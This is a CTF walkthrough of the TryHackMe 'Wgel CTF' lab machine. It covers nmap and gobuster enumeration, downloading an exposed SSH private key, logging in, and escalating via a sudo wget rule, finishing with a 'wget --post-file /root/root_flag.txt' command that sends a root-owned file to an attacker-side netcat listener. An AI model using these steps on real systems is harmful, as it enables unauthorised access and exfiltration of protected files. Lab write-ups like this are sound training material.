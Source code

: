 # Wgel CTF

Macinne consist in access to the server and privsec via wget.

## Nmap scan

```bash
 $ nmap -sC -sV -T4 10.10.185.51
Nmap scan report for 10.10.185.51
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This machinne have the port 80 and 22.

## Enumeration

Open browser and access to the ip, is a Apache Default site.

![Apache Default Site](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20site.png)

If we go deep more and view the source code we look a name that is a possible Username.

![Source Code](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20code.png)

Then **Jessie** is a possible username.

## Fuzzing to the website

``` bash

$ gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/
```
The result is that and the sitemap directory catches my attention.
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
```
![Sitemap]()

Finding into the source code I didn't find anything.
<br>
We keep listing into the sitemap directory.

```bash
$  gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/sitemap
```
In this search i found ** /.ssh ** Directory.

![.ssh directory](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/ssh.png)

We Download the file and give the respective permissions

```bash
$ wget http://10.10.185.51/sitemap/.ssh/id_rsa ;chmod 600 id_rsa
```
## access to the ssh

As we already found the possible ssh information, we proceed to access to the ssh.

Username: Jessie
Password: id_rsa file

```bash
$ ssh -i id_rsa jessie@10.10.185.51   
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Successfully, we access to the machinne.

### user.txt

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt 

057c67131c3d5e42d***************
```
## Privsec

We Check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
We go to the [GTFObins](https://gtfobins.github.io/gtfobins/wget/#file-upload) File Upload

![Wget GTFO BINS](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/GTFO_wget.png)

We put our machine to listen with netcat and prepare to receive the packet.

### Our Machinne

```bash
$ nc -lvnp 5689
```
### Victim Machinne

```bash
$ sudo /usr/bin/wget --post-file /root/root_flag.txt MYIP:5689/
```

### Get root flag

```bash
nc -lvnp 5689                                                   13:03:32
listening on [any] 5689 ...
connect to [MYIP] from (UNKNOWN) [10.10.185.51] 58358
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: MYIP:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1da***************

```
